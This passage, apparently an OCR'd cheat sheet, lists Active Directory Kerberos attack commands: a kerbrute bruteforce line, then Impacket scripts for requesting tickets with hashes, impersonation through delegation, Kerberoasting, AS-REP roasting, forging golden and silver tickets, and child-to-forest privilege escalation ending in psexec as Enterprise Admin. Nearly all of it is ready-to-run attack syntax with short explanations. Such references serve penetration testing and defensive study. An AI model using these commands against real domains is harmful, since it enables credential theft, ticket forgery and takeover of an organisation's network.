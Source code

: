 ```
./kerbrute -d lab.ropnop.com bruteforce -
```

## Impacket 
```
# GetTGT
# Given a password, hash or aesKey, this script will request a TGT and save it as ccache.
getTGT.py -hashes lm:nt domain.com/user

# GetST
# Given a password, hash, aesKey or TGT in ccache, this script will request a Service Ticket and save it as ccache.
# If the account has constrained delegation (with protocol transition) privileges you will be able to use the -impersonate 
# switch to request the ticket on behalf another user.
getST.py -hashes lm:nt -spn cifs/contoso-dc contoso.com/user

# GetUserSPNs
# This example will try to find and fetch Service Principal Names that are associated with normal user accounts.
# Output is compatible with JtR and HashCat.
GetUserSPNs.py -dc-ip 192.168.168.10 sittingduck.info/notanadmin

# GetNPUsers
# This example will attempt to list and get TGTs for those users that have the property
# 'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH). Output is compatible with JtR.
# Get TGT for a user
→ GetNPUsers.py contoso.com/john.doe -no-pass
# Get a list of users with UF_DONT_REQUIRE_PREAUTH set
→ GetNPUsers.py contoso.com/emily:password or GetNPUsers.py contoso.com/emily
# Request TGTs for all users
→ GetNPUsers.py contoso.com/emily:password -request or GetNPUsers.py contoso.com/emily
# Request TGTs for users in a file
→ GetNPUsers.py contoso.com/ -no-pass -usersfile users.txt

# ticketer
# This script will create Golden/Silver tickets from scratch or based on a template (legally requested from the KDC).
ticketer.py -nthash <krbtgt/service nthash> -domain-sid <your domain SID> -domain <your domain FQDN> baduser

# raiseChild
# This script implements a child-domain to forest privilege escalation by (ab)using the concept of Golden Tickets and ExtraSids.
python raiseChild.py childDomain.net/adminuser
python raiseChild.py childDomain.net/adminuser:mypwd
python raiseChild.py -hashes LMHASH:NTHASH childDomain.net/adminuser

# This will perform the attack and then psexec against target-exec as Enterprise Admin
python raiseChild.py -target-exec targetHost childDomainn.net/adminuser
# This will save the final goldenTicket generated in the ccache target file
python raiseChild.py -w ccache childDomain.net/adminuser
```

